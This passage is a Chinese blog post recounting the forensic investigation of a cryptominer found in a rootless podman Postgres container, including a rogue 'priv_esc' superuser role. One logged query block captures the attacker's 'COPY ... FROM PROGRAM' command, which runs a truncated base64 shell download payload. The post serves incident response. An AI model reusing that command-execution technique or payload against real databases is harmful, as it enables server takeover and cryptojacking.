

记一次服务器被挂挖矿软件

<!-- more -->

这是第一次遇到服务器被挂马的现象，起因是在服务器中发现有异常的占用——两颗 CPU 中有一颗满载，并且重点是，**这个服务器是空负载，没有任何服务在上面运行**。

## 现象观测

最初的破绽暴露在 `htop` 中，`htop` 命令表现为标号为 0 的 CPU 完全满载，并且如下进程占用了该 CPU 的所有资源

```bash
➜  ~ ps aux --sort=-%cpu
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
166534    434366 2799 14.1 9254028 4604992 ?     Sl   Feb21 528188:01 /tmp/mysql
root     3154358  400  0.0  10072  4896 pts/0    R+   00:39   0:00 ps aux --sort=-%cpu
contain+    4634  0.2  0.4 17186744 142876 ?     Sl   Feb21  58:42 /home/containers/.cargo/bin/zellij --server /run/user/1001/zellij/0.43.1/oceaniam
root     3148539  0.2  0.0  19860  7436 ?        S    00:24   0:01 sshd-session: root@pts/0
root     3148540  0.1  0.0  17148 11032 pts/0    Ss   00:24   0:01 -zsh
...
```

可以看到有个 PID 为 434366 名字为 `/tmp/mysql` 的进程吃掉了一个 CPU 的所有资源。

## 痕迹收集

在观测完毕现象后需要进行痕迹收集，我认为从以下几个方面收集痕迹会有些作用：

- IDC 提供的流量日志
- `sshd` 日志
- `ferron` 日志
- Debian 软件包完整性检查

### IDC 提供的流量日志

根据系统日志看，异常进程出现于 2026.02.21，因此需要去 IDC 提供的流量日志中检查异常流量从什么时间开始



基于此图得到了初步判断，确实是服务器从 2026.02.21 开始产生了异常，但仅有这个数据无法看到更多有用的信息，我们应该从最后一次登录服务器，也就是 2026.02.20 开始入手分析。

### `sshd` 日志

由于我使用的是 Debian，因此使用如下命令导出 `sshd` 的日志

```bash
sudo journalctl -u ssh -u sshd \
    --since "7 days ago" \
    -o json --utc \
    > /tmp/sshd_journal_json_utc_$(date -u +%Y%m%dT%H%M%SZ).json
```

该日志文件大小远超预期

```bash
-rw-r--r--  1 root       root       171M Mar  7 01:50 sshd_journal_json_utc_20260306T174954Z.json
```

将这份日志拷贝到自己的机器上，稍后利用 DuckDB 进行本地分析

### `ferron` 日志

`ferron` 未受到异常爆破，离机日志没有检测到任何问题

### Debian 软件包完整性检查

利用 `dpkg -V` 进行检查，未发现预期外的修改

```text
➜  ssh  dpkg -V
??5?????? c /etc/ferron.kdl
```

### 恶意二进制文件相关信息

我们从 434366 这个 PID 开始获取信息

#### 二进制文件

通过上面的命令输出

```text
➜  ~ ps aux --sort=-%cpu
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
166534    434366 2799 14.1 9254028 4604992 ?     Sl   Feb21 528188:01 /tmp/mysql
...
```

我们前往 `/tmp/mysql` 查找二进制文件，但并未找到。

注意到 `USER` 字段为 `166534`, 看起来可能是某种 `namespace` 映射。

因此我猜想，应该想办法证明是应该在某个 `namespace` 之中，然后在对应的 `namespace` 中抓取二进制文件

```bash
➜  /tmp ls -l /proc/$PID/ns
total 0
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 cgroup -> 'cgroup:[4026532930]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 ipc -> 'ipc:[4026532928]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 mnt -> 'mnt:[4026532926]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 net -> 'net:[4026532792]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 01:32 pid -> 'pid:[4026532929]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 pid_for_children -> 'pid:[4026532929]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 time -> 'time:[4026531834]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 time_for_children -> 'time:[4026531834]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 user -> 'user:[4026532787]'
lrwxrwxrwx 1 166534 166534 0 Mar  7 02:03 uts -> 'uts:[4026532927]'
➜  /tmp ls -l /proc/self/ns
total 0
lrwxrwxrwx 1 root root 0 Mar  7 02:11 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 mnt -> 'mnt:[4026531841]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 net -> 'net:[4026531840]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 time -> 'time:[4026531834]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 time_for_children -> 'time:[4026531834]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 Mar  7 02:11 uts -> 'uts:[4026531838]'
➜  /tmp readlink /proc/1/ns/mnt
mnt:[4026531841]
➜  /tmp   readlink /proc/$PID/ns/mnt
mnt:[4026532926]
```

首先我们对对应 PID 的 /proc/$PID/ns 进行检查，这里存放着命名空间的相关信息，可以看到其中确实命名空间和我们所使用的用户完全不同：

- 通过检查 /proc/self/ns 中我们可以看到我们的 `mnt` 处于 `4026531841`
- 但恶意二进制的文件的 `mnt` 处于 `4026532926`

既然如此我们应该深入其对应的 `mnt` 进行二进制提取

```bash
➜  /tmp   TS=$(date -u +%Y%m%dT%H%M%SZ)
➜  /tmp   cp -a /proc/$PID/root/tmp/mysql /tmp/pid_${PID}_root_tmp_mysql_${TS} && cp -a /proc/$PID/exe /tmp/pid_${PID}_exe_${TS}
```

随后将证据固化到本机，用于稍后分析。

#### 挂马点分析

我们现在有了机会分析具体的入侵点：系统中大致只存在 `podman` 会利用 `namespace` 机制。由于已经编排好的容器我们都十分清楚并且数量较少，我们直接查二进制就好。

```bash
➜  /tmp cd /proc/$PID/root
➜  root ls
bin  boot  dev  docker-entrypoint-initdb.d  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
➜  root cd etc
# 跳过无用分析
➜  etc du  | rg postgres
4       ./postgresql
8       ./postgresql-common/pg_upgradecluster.d
24      ./postgresql-common
```

我们可以得到是某个 `postgres` 容器被入侵了这个初步结论，继续排查是哪儿个编组出了问题

```bash
➜  etc cat /proc/$PID/cgroup
0::/user.slice/user-1001.slice/user@1001.service/user.slice/user-libpod_pod_a0d591b6895832291281a31da0eee965617163f98b7546ac475727035735c03d.slice/libpod-c3b3ccc85706d4153543b9112f21bcbbb995ee598549ba0c5577ee1412a6abe0.scope/container
```

基于这个输出，我们可以得到如下信息：

- 运行时：libpod（也就是 podman）
- 类型：rootless 容器，在 user-1001 会话下
- Pod ID：a0d591b68958...
- Container ID：c3b3ccc85706...

找到了对应的用户是谁，暂且令其为变量 `U`

重点是 `CID`，得到这个信息后我们可以获取到底是哪儿组 compose 受到了入侵

接下来我们切换到对应的用户，固化证据

```bash
➜ podman inspect "$CID" > /tmp/podman_inspect_${CID}_${TS}.json
➜ podman logs --timestamps "$CID" > /tmp/podman_logs_${CID}_${TS}.log
➜ podman top "$CID" -eo pid,ppid,user,etime,cmd > /tmp/podman_top_${CID}_${TS}.txt
➜ podman diff "$CID" > /tmp/podman_diff_${CID}_${TS}.txt
```

#### 数据库分析

我们进入对应的 `postgres` 容器提取一下有用信息

```bash
postgres=#   \l
                                                    List of databases
   Name    |  Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | Locale | ICU Rules |   Access privileges
-----------+----------+----------+-----------------+------------+------------+--------+-----------+-----------------------
 postgres  | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |
 template0 | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/postgres          +
           |          |          |                 |            |            |        |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/postgres          +
           |          |          |                 |            |            |        |           | postgres=CTc/postgres
(3 rows)

postgres=# \du+
                                    List of roles
 Role name |                         Attributes                         | Description
-----------+------------------------------------------------------------+-------------
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS |
 priv_esc  | Superuser                                                  |

postgres=# \dn+
                                       List of schemas
  Name  |       Owner       |           Access privileges            |      Description
--------+-------------------+----------------------------------------+------------------------
 public | pg_database_owner | pg_database_owner=UC/pg_database_owner+| standard public schema
        |                   | =U/pg_database_owner                   |
(1 row)

postgres=# \dt *.*
postgres=# \pset pager off
Pager usage is off.
postgres=# \dt *.*
                             List of tables
       Schema       |           Name           |    Type     |  Owner
--------------------+--------------------------+-------------+----------
 information_schema | sql_features             | table       | postgres
 information_schema | sql_implementation_info  | table       | postgres
 information_schema | sql_parts                | table       | postgres
 information_schema | sql_sizing               | table       | postgres
 pg_catalog         | pg_aggregate             | table       | postgres
 pg_catalog         | pg_am                    | table       | postgres
 pg_catalog         | pg_amop                  | table       | postgres
 pg_catalog         | pg_amproc                | table       | postgres
 pg_catalog         | pg_attrdef               | table       | postgres
 pg_catalog         | pg_attribute             | table       | postgres
 pg_catalog         | pg_auth_members          | table       | postgres
 pg_catalog         | pg_authid                | table       | postgres
 pg_catalog         | pg_cast                  | table       | postgres
 pg_catalog         | pg_class                 | table       | postgres
 pg_catalog         | pg_collation             | table       | postgres
 pg_catalog         | pg_constraint            | table       | postgres
 pg_catalog         | pg_conversion            | table       | postgres
 pg_catalog         | pg_database              | table       | postgres
 pg_catalog         | pg_db_role_setting       | table       | postgres
 pg_catalog         | pg_default_acl           | table       | postgres
 pg_catalog         | pg_depend                | table       | postgres
 pg_catalog         | pg_description           | table       | postgres
 pg_catalog         | pg_enum                  | table       | postgres
 pg_catalog         | pg_event_trigger         | table       | postgres
 pg_catalog         | pg_extension             | table       | postgres
 pg_catalog         | pg_foreign_data_wrapper  | table       | postgres
 pg_catalog         | pg_foreign_server        | table       | postgres
 pg_catalog         | pg_foreign_table         | table       | postgres
 pg_catalog         | pg_index                 | table       | postgres
 pg_catalog         | pg_inherits              | table       | postgres
 pg_catalog         | pg_init_privs            | table       | postgres
 pg_catalog         | pg_language              | table       | postgres
 pg_catalog         | pg_largeobject           | table       | postgres
 pg_catalog         | pg_largeobject_metadata  | table       | postgres
 pg_catalog         | pg_namespace             | table       | postgres
 pg_catalog         | pg_opclass               | table       | postgres
 pg_catalog         | pg_operator              | table       | postgres
 pg_catalog         | pg_opfamily              | table       | postgres
 pg_catalog         | pg_parameter_acl         | table       | postgres
 pg_catalog         | pg_partitioned_table     | table       | postgres
 pg_catalog         | pg_policy                | table       | postgres
 pg_catalog         | pg_proc                  | table       | postgres
 pg_catalog         | pg_publication           | table       | postgres
 pg_catalog         | pg_publication_namespace | table       | postgres
 pg_catalog         | pg_publication_rel       | table       | postgres
 pg_catalog         | pg_range                 | table       | postgres
 pg_catalog         | pg_replication_origin    | table       | postgres
 pg_catalog         | pg_rewrite               | table       | postgres
 pg_catalog         | pg_seclabel              | table       | postgres
 pg_catalog         | pg_sequence              | table       | postgres
 pg_catalog         | pg_shdepend              | table       | postgres
 pg_catalog         | pg_shdescription         | table       | postgres
 pg_catalog         | pg_shseclabel            | table       | postgres
 pg_catalog         | pg_statistic             | table       | postgres
 pg_catalog         | pg_statistic_ext         | table       | postgres
 pg_catalog         | pg_statistic_ext_data    | table       | postgres
 pg_catalog         | pg_subscription          | table       | postgres
 pg_catalog         | pg_subscription_rel      | table       | postgres
 pg_catalog         | pg_tablespace            | table       | postgres
 pg_catalog         | pg_transform             | table       | postgres
 pg_catalog         | pg_trigger               | table       | postgres
 pg_catalog         | pg_ts_config             | table       | postgres
 pg_catalog         | pg_ts_config_map         | table       | postgres
 pg_catalog         | pg_ts_dict               | table       | postgres
 pg_catalog         | pg_ts_parser             | table       | postgres
 pg_catalog         | pg_ts_template           | table       | postgres
 pg_catalog         | pg_type                  | table       | postgres
 pg_catalog         | pg_user_mapping          | table       | postgres
 pg_toast           | pg_toast_1213            | TOAST table | postgres
 pg_toast           | pg_toast_1247            | TOAST table | postgres
 pg_toast           | pg_toast_1255            | TOAST table | postgres
 pg_toast           | pg_toast_1262            | TOAST table | postgres
 pg_toast           | pg_toast_13476           | TOAST table | postgres
 pg_toast           | pg_toast_13481           | TOAST table | postgres
 pg_toast           | pg_toast_13486           | TOAST table | postgres
 pg_toast           | pg_toast_13491           | TOAST table | postgres
 pg_toast           | pg_toast_1417            | TOAST table | postgres
 pg_toast           | pg_toast_1418            | TOAST table | postgres
 pg_toast           | pg_toast_16384           | TOAST table | postgres
 pg_toast           | pg_toast_16393           | TOAST table | postgres
 pg_toast           | pg_toast_16412           | TOAST table | postgres
 pg_toast           | pg_toast_16439           | TOAST table | postgres
 pg_toast           | pg_toast_16463           | TOAST table | postgres
 pg_toast           | pg_toast_16472           | TOAST table | postgres
 pg_toast           | pg_toast_16504           | TOAST table | postgres
 pg_toast           | pg_toast_2328            | TOAST table | postgres
 pg_toast           | pg_toast_2396            | TOAST table | postgres
 pg_toast           | pg_toast_2600            | TOAST table | postgres
 pg_toast           | pg_toast_2604            | TOAST table | postgres
 pg_toast           | pg_toast_2606            | TOAST table | postgres
 pg_toast           | pg_toast_2609            | TOAST table | postgres
 pg_toast           | pg_toast_2610            | TOAST table | postgres
 pg_toast           | pg_toast_2612            | TOAST table | postgres
 pg_toast           | pg_toast_2615            | TOAST table | postgres
 pg_toast           | pg_toast_2618            | TOAST table | postgres
 pg_toast           | pg_toast_2619            | TOAST table | postgres
 pg_toast           | pg_toast_2620            | TOAST table | postgres
 pg_toast           | pg_toast_2964            | TOAST table | postgres
 pg_toast           | pg_toast_3079            | TOAST table | postgres
 pg_toast           | pg_toast_3118            | TOAST table | postgres
 pg_toast           | pg_toast_3256            | TOAST table | postgres
 pg_toast           | pg_toast_3350            | TOAST table | postgres
 pg_toast           | pg_toast_3381            | TOAST table | postgres
 pg_toast           | pg_toast_3394            | TOAST table | postgres
 pg_toast           | pg_toast_3429            | TOAST table | postgres
 pg_toast           | pg_toast_3456            | TOAST table | postgres
 pg_toast           | pg_toast_3466            | TOAST table | postgres
 pg_toast           | pg_toast_3592            | TOAST table | postgres
 pg_toast           | pg_toast_3596            | TOAST table | postgres
 pg_toast           | pg_toast_3600            | TOAST table | postgres
 pg_toast           | pg_toast_6100            | TOAST table | postgres
 pg_toast           | pg_toast_6106            | TOAST table | postgres
 pg_toast           | pg_toast_6243            | TOAST table | postgres
 pg_toast           | pg_toast_826             | TOAST table | postgres
 public             | administrators           | table       | postgres
 public             | applications             | table       | postgres
 public             | credentials              | table       | postgres
 public             | key_boxes                | table       | postgres
 public             | revoked_jwts             | table       | postgres
 public             | seaql_migrations         | table       | postgres
 public             | subjects                 | table       | postgres
 public             | tenants                  | table       | postgres
 public             | users                    | table       | postgres
(123 rows)
```

数据库元信息提取完毕后，尝试提取有用的实际信息

```bash
postgres=#   SELECT now(), current_user, inet_server_addr(), inet_server_port();
  SELECT pid, usename, datname, client_addr, backend_start, state, left(query,200)
  FROM pg_stat_activity
  ORDER BY backend_start DESC;
              now              | current_user | inet_server_addr | inet_server_port
-------------------------------+--------------+------------------+------------------
 2026-03-06 19:22:32.324541+00 | postgres     |                  |
(1 row)

   pid   | usename  | datname  | client_addr |         backend_start         | state  |                                       left
---------+----------+----------+-------------+-------------------------------+--------+----------------------------------------------------------------------------------
 1199957 | postgres | postgres |             | 2026-03-06 19:19:06.7911+00   | active | SELECT pid, usename, datname, client_addr, backend_start, state, left(query,200)+
         |          |          |             |                               |        |   FROM pg_stat_activity                                                         +
         |          |          |             |                               |        |   ORDER BY backend_start DESC;
 1152275 | postgres |          |             | 2026-03-06 05:37:44.647019+00 |        |
 1152274 |          |          |             | 2026-03-06 05:37:44.646212+00 |        |
 1152273 |          |          |             | 2026-03-06 05:37:44.645665+00 |        |
 1152264 |          |          |             | 2026-03-06 05:37:42.120044+00 |        |
 1152263 |          |          |             | 2026-03-06 05:37:42.119542+00 |        |
 1152261 |          |          |             | 2026-03-06 05:37:42.117833+00 |        |
 1152260 |          |          |             | 2026-03-06 05:37:42.117074+00 |        |
 1152259 |          |          |             | 2026-03-06 05:37:42.116408+00 |        |
(9 rows)
```

在以上日志中我们看到了个可疑的字眼：`priv_esc`。

开始调查数据库的用户信息：

```bash
postgres=#   SELECT rolname, rolsuper, rolcreaterole, rolcreatedb, rolcanlogin, rolvaliduntil
  FROM pg_roles
  ORDER BY rolname;
           rolname           | rolsuper | rolcreaterole | rolcreatedb | rolcanlogin | rolvaliduntil
-----------------------------+----------+---------------+-------------+-------------+---------------
 pg_checkpoint               | f        | f             | f           | f           |
 pg_create_subscription      | f        | f             | f           | f           |
 pg_database_owner           | f        | f             | f           | f           |
 pg_execute_server_program   | f        | f             | f           | f           |
 pg_maintain                 | f        | f             | f           | f           |
 pg_monitor                  | f        | f             | f           | f           |
 pg_read_all_data            | f        | f             | f           | f           |
 pg_read_all_settings        | f        | f             | f           | f           |
 pg_read_all_stats           | f        | f             | f           | f           |
 pg_read_server_files        | f        | f             | f           | f           |
 pg_signal_autovacuum_worker | f        | f             | f           | f           |
 pg_signal_backend           | f        | f             | f           | f           |
 pg_stat_scan_tables         | f        | f             | f           | f           |
 pg_use_reserved_connections | f        | f             | f           | f           |
 pg_write_all_data           | f        | f             | f           | f           |
 pg_write_server_files       | f        | f             | f           | f           |
 postgres                    | t        | t             | t           | t           |
 priv_esc                    | t        | f             | f           | t           |
(18 rows)

postgres=#   SELECT
    pg_get_userbyid(member) AS member,
    pg_get_userbyid(roleid) AS granted_role
  FROM pg_auth_members
  ORDER BY 1,2;
   member   |     granted_role
------------+----------------------
 pg_monitor | pg_read_all_settings
 pg_monitor | pg_read_all_stats
 pg_monitor | pg_stat_scan_tables
 postgres   | priv_esc
(4 rows)
```

很明显，`priv_esc` 这个用户通过 `postgres` 这个最高权限用户进行了授权，完成了提权。

> [!NOTE]
> 很有意思的是，我捕捉到了一次当着我的面执行的攻击
>
> ```bash
> SELECT pid, usename, datname, client_addr, backend_start, state, left(query,200)
>   FROM pg_stat_activity
>   ORDER BY backend_start DESC;
>    pid   | usename  | datname  | client_addr |         backend_start         | state  |                                                                                                   left
> ---------+----------+----------+-------------+-------------------------------+--------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
>  1200290 | postgres | postgres | 10.89.0.2   | 2026-03-06 19:27:03.325365+00 | idle   | BEGIN TRANSACTION READ ONLY; COMMIT; DROP TABLE IF EXISTS tests; CREATE TABLE tests(cmd_output text); COPY tests FROM PROGRAM 'echo ZnVuY3Rpb24gX19jdXJsKCkgewogIHJlYWQgcHJvdG8gc2VydmVyIHBhdGggPDw8IiQo
>  1199957 | postgres | postgres |             | 2026-03-06 19:19:06.7911+00   | active | SELECT pid, usename, datname, client_addr, backend_start, state, left(query,200)                                                                                                                        +
>          |          |          |             |                               |        |   FROM pg_stat_activity                                                                                                                                                                                 +
>          |          |          |             |                               |        |   ORDER BY backend_start DESC;
>  1152275 | postgres |          |             | 2026-03-06 05:37:44.647019+00 |        |
>  1152274 |          |          |             | 2026-03-06 05:37:44.646212+00 |        |
>  1152273 |          |          |             | 2026-03-06 05:37:44.645665+00 |        |
>  1152264 |          |          |             | 2026-03-06 05:37:42.120044+00 |        |
>  1152263 |          |          |             | 2026-03-06 05:37:42.119542+00 |        |
>  1152261 |          |          |             | 2026-03-06 05:37:42.117833+00 |        |
>  1152260 |          |          |             | 2026-03-06 05:37:42.117074+00 |        |
>  1152259 |          |          |             | 2026-03-06 05:37:42.116408+00 |        |
> (10 rows)
> ```

我们捕捉到了一些有趣的信息：IP 地址，判定一下是谁在操作数据库

```bash
➜  ~   podman ps -a --format '{{.ID}} {{.Names}}'
  for c in $(podman ps -q); do
    podman inspect -f '{{.Id}} {{.Name}} {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' "$c"
  done | grep '10.89.0.2'
c3b3ccc85706 instance-oceaniam_postgres_1
c3b3ccc85706d4153543b9112f21bcbbb995ee598549ba0c5577ee1412a6abe0 instance-oceaniam_postgres_1 10.89.0.2
```

看起来是容器内部发起的攻击。

#### 数据库定损

> [!NOTE]
> 虽然我很清楚这个服务器的数据是空的，但我依然对这件事很感兴趣

接下来需要判断一下数据库的受损情况。

先在 psql 里开启只读事务：

```sql
BEGIN TRANSACTION READ ONLY;
SET statement_timeout = '30s';
SET search_path = pg_catalog, public;
```

##### 查下是否存在可疑函数

```sql
SELECT n.nspname, p.proname, l.lanname, pg_get_userbyid(p.proowner) AS owner
FROM pg_proc p
JOIN pg_namespace n ON n.oid = p.pronamespace
JOIN pg_language l ON l.oid = p.prolang
WHERE l.lanname IN ('c','plpython3u','plperlu','plperl','plsh')
ORDER BY 1,2;
```

得到输出如下

```sql
postgres=*# SELECT n.nspname, p.proname, l.lanname, pg_get_userbyid(p.proowner) AS owner
FROM pg_proc p
JOIN pg_namespace n ON n.oid = p.pronamespace
JOIN pg_language l ON l.oid = p.prolang
WHERE l.lanname IN ('c','plpython3u','plperlu','plperl','plsh')
ORDER BY 1,2;
  nspname   |            proname             | lanname |  owner
------------+--------------------------------+---------+----------
 pg_catalog | big5_to_euc_tw                 | c       | postgres
 pg_catalog | big5_to_mic                    | c       | postgres
 pg_catalog | big5_to_utf8                   | c       | postgres
 pg_catalog | dsnowball_init                 | c       | postgres
 pg_catalog | dsnowball_lexize               | c       | postgres
 pg_catalog | euc_cn_to_mic                  | c       | postgres
 pg_catalog | euc_cn_to_utf8                 | c       | postgres
 pg_catalog | euc_jis_2004_to_shift_jis_2004 | c       | postgres
 pg_catalog | euc_jis_2004_to_utf8           | c       | postgres
 pg_catalog | euc_jp_to_mic                  | c       | postgres
 pg_catalog | euc_jp_to_sjis                 | c       | postgres
 pg_catalog | euc_jp_to_utf8                 | c       | postgres
 pg_catalog | euc_kr_to_mic                  | c       | postgres
 pg_catalog | euc_kr_to_utf8                 | c       | postgres
 pg_catalog | euc_tw_to_big5                 | c       | postgres
 pg_catalog | euc_tw_to_mic                  | c       | postgres
 pg_catalog | euc_tw_to_utf8                 | c       | postgres
 pg_catalog | gb18030_to_utf8                | c       | postgres
 pg_catalog | gbk_to_utf8                    | c       | postgres
 pg_catalog | iso8859_1_to_utf8              | c       | postgres
 pg_catalog | iso8859_to_utf8                | c       | postgres
 pg_catalog | iso_to_koi8r                   | c       | postgres
 pg_catalog | iso_to_mic                     | c       | postgres
 pg_catalog | iso_to_win1251                 | c       | postgres
 pg_catalog | iso_to_win866                  | c       | postgres
 pg_catalog | johab_to_utf8                  | c       | postgres
 pg_catalog | koi8r_to_iso                   | c       | postgres
 pg_catalog | koi8r_to_mic                   | c       | postgres
 pg_catalog | koi8r_to_utf8                  | c       | postgres
 pg_catalog | koi8r_to_win1251               | c       | postgres
 pg_catalog | koi8r_to_win866                | c       | postgres
 pg_catalog | koi8u_to_utf8                  | c       | postgres
 pg_catalog | latin1_to_mic                  | c       | postgres
 pg_catalog | latin2_to_mic                  | c       | postgres
 pg_catalog | latin2_to_win1250              | c       | postgres
 pg_catalog | latin3_to_mic                  | c       | postgres
 pg_catalog | latin4_to_mic                  | c       | postgres
 pg_catalog | mic_to_big5                    | c       | postgres
 pg_catalog | mic_to_euc_cn                  | c       | postgres
 pg_catalog | mic_to_euc_jp                  | c       | postgres
 pg_catalog | mic_to_euc_kr                  | c       | postgres
 pg_catalog | mic_to_euc_tw                  | c       | postgres
 pg_catalog | mic_to_iso                     | c       | postgres
 pg_catalog | mic_to_koi8r                   | c       | postgres
 pg_catalog | mic_to_latin1                  | c       | postgres
 pg_catalog | mic_to_latin2                  | c       | postgres
 pg_catalog | mic_to_latin3                  | c       | postgres
 pg_catalog | mic_to_latin4                  | c       | postgres
 pg_catalog | mic_to_sjis                    | c       | postgres
 pg_catalog | mic_to_win1250                 | c       | postgres
 pg_catalog | mic_to_win1251                 | c       | postgres
 pg_catalog | mic_to_win866                  | c       | postgres
 pg_catalog | plpgsql_call_handler           | c       | postgres
 pg_catalog | plpgsql_inline_handler         | c       | postgres
 pg_catalog | plpgsql_validator              | c       | postgres
 pg_catalog | shift_jis_2004_to_euc_jis_2004 | c       | postgres
 pg_catalog | shift_jis_2004_to_utf8         | c       | postgres
 pg_catalog | sjis_to_euc_jp                 | c       | postgres
 pg_catalog | sjis_to_mic                    | c       | postgres
 pg_catalog | sjis_to_utf8                   | c       | postgres
 pg_catalog | uhc_to_utf8                    | c       | postgres
 pg_catalog | utf8_to_big5                   | c       | postgres
 pg_catalog | utf8_to_euc_cn                 | c       | postgres
 pg_catalog | utf8_to_euc_jis_2004           | c       | postgres
 pg_catalog | utf8_to_euc_jp                 | c       | postgres
 pg_catalog | utf8_to_euc_kr                 | c       | postgres
 pg_catalog | utf8_to_euc_tw                 | c       | postgres
 pg_catalog | utf8_to_gb18030                | c       | postgres
 pg_catalog | utf8_to_gbk                    | c       | postgres
 pg_catalog | utf8_to_iso8859                | c       | postgres
 pg_catalog | utf8_to_iso8859_1              | c       | postgres
 pg_catalog | utf8_to_johab                  | c       | postgres
 pg_catalog | utf8_to_koi8r                  | c       | postgres
 pg_catalog | utf8_to_koi8u                  | c       | postgres
 pg_catalog | utf8_to_shift_jis_2004         | c       | postgres
 pg_catalog | utf8_to_sjis                   | c       | postgres
 pg_catalog | utf8_to_uhc                    | c       | postgres
 pg_catalog | utf8_to_win                    | c       | postgres
 pg_catalog | win1250_to_latin2              | c       | postgres
 pg_catalog | win1250_to_mic                 | c       | postgres
 pg_catalog | win1251_to_iso                 | c       | postgres
 pg_catalog | win1251_to_koi8r               | c       | postgres
 pg_catalog | win1251_to_mic                 | c       | postgres
 pg_catalog | win1251_to_win866              | c       | postgres
 pg_catalog | win866_to_iso                  | c       | postgres
 pg_catalog | win866_to_koi8r                | c       | postgres
 pg_catalog | win866_to_mic                  | c       | postgres
 pg_catalog | win866_to_win1251              | c       | postgres
 pg_catalog | win_to_utf8                    | c       | postgres
 public     | postgres_fdw_disconnect        | c       | postgres
 public     | postgres_fdw_disconnect_all    | c       | postgres
 public     | postgres_fdw_get_connections   | c       | postgres
 public     | postgres_fdw_handler           | c       | postgres
 public     | postgres_fdw_validator         | c       | postgres
(94 rows)
```

注意到了 postgres_fdw\_\*，这疑似是跨库访问的接口。

> [!NOTE]
> 由于我完全不知道接下来应该怎么检查，于是接下来的命令大部分由 ChatGPT 提供

ChatGPT 建议检查是否有对外的 fdw，给出如下命令

```sql
SELECT
    s.srvname,
    CASE WHEN m.umuser = 0 THEN 'public' ELSE pg_get_userbyid(m.umuser) END AS mapping_for,
    m.umoptions
  FROM pg_user_mapping m
  JOIN pg_foreign_server s ON s.oid = m.umserver
ORDER BY 1,2;
```

得到如下执行结果

```sql
postgres=# SELECT
    s.srvname,
    CASE WHEN m.umuser = 0 THEN 'public' ELSE pg_get_userbyid(m.umuser) END AS mapping_for,
    m.umoptions
  FROM pg_user_mapping m
  JOIN pg_foreign_server s ON s.oid = m.umserver
  ORDER BY 1,2;
 srvname | mapping_for | umoptions
---------+-------------+-----------
(0 rows)
```

看起来是安全的，安装了但完全没有使用。

##### 查事件触发器/触发器

很可能在这里藏了持久化残留

```sql

SELECT evtname, evtevent, evtenabled, pg_get_userbyid(evtowner) AS owner
FROM pg_event_trigger
ORDER BY 1;

SELECT event_object_schema, event_object_table, trigger_name, action_timing, event_manipulation
FROM information_schema.triggers
ORDER BY 1,2,3;
```

得到如下输出

```sql
postgres=# SELECT evtname, evtevent, evtenabled, pg_get_userbyid(evtowner) AS owner
FROM pg_event_trigger
ORDER BY 1;

SELECT event_object_schema, event_object_table, trigger_name, action_timing, event_manipulation
FROM information_schema.triggers
ORDER BY 1,2,3;
  evtname  |     evtevent      | evtenabled |  owner
-----------+-------------------+------------+----------
 log_end   | ddl_command_end   | O          | postgres
 log_start | ddl_command_start | O          | postgres
(2 rows)

 event_object_schema | event_object_table | trigger_name | action_timing | event_manipulation
---------------------+--------------------+--------------+---------------+--------------------
(0 rows)
```

看起来有个 `ddl_*` 样式的钩子，我们调查一下。

```sql
-- 1) 看事件触发器定义
SELECT evtname, evtevent, evtenabled, evtfoid::regprocedure
FROM pg_event_trigger
ORDER BY evtname;

-- 2) 看它们绑定到哪个函数
SELECT e.evtname,
       n.nspname AS func_schema,
       p.proname AS func_name,
       pg_get_userbyid(p.proowner) AS func_owner
FROM pg_event_trigger e
JOIN pg_proc p ON p.oid = e.evtfoid
JOIN pg_namespace n ON n.oid = p.pronamespace
ORDER BY e.evtname;

-- 3) 导出函数源码
SELECT n.nspname, p.proname, pg_get_functiondef(p.oid)
FROM pg_proc p
JOIN pg_namespace n ON n.oid = p.pronamespace
WHERE p.oid IN (SELECT evtfoid FROM pg_event_trigger)
ORDER BY 1,2;
```

得到了如下的输出

```sql
postgres=# -- 1) 看事件触发器定义
SELECT evtname, evtevent, evtenabled, evtfoid::regprocedure
FROM pg_event_trigger
ORDER BY evtname;

-- 2) 看它们绑定到哪个函数
SELECT e.evtname,
       n.nspname AS func_schema,
